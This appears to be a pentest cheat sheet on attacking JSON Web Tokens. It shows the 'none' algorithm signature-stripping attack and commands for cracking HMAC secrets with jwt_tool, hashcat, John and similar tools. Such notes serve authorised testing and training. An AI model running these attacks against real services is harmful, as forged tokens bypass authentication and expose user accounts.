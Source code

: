 `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c`
	
`eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9 (Header)`  
`eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ (Payload)`  
`SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c (Signature)`  
	
### JWT None Attack
1. Change signature algorithm in the header to none  
`eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0`  
2. Forge the payload content  
3. Leave the Signature part of the JWT empty and put a period in the token  
or  
-> jwt_tool  
```
jwt_tool <jwt> -X a 
```
### JWT Decoder
-> jwt_tool  
```
jwt_tool <JWT>
```
-> jwt-decoder.py  
```
python3 jwt-decoder.py "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJqd3QiOiJwd24ifQ.4pOAm1W4SHUoOgSrc8D-J1YqLEv9ypAApz27nfYP5L4"
```
https://github.com/mazen160/jwt-pwn  

### JWT Cracking - Brute-Force
-> crunch + jwt_tool
```
crunch 5 5 -o wl.txt
```
```
jwt_tool <jwt> -C -d wl.txt
```
-> go-jwt-cracker  
```
./go-jwt-cracker -wordlist /pentest/wordlist.txt -token "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJqd3QiOiJwd24ifQ.4pOAm1W4SHUoOgSrc8D-J1YqLEv9ypAApz27nfYP5L4"
```
https://github.com/mazen160/jwt-pwn

-> Hashcat  
```
hashcat -a 0 -m 16500 jwt.txt wordlist.txt
hashcat jwt.txt -m 16500 -a 3 -w 2 ?d?d?d?d
```
-> John  
```
john jwt.txt --wordlist=wordlist.txt --format=HMAC-SHA256
```

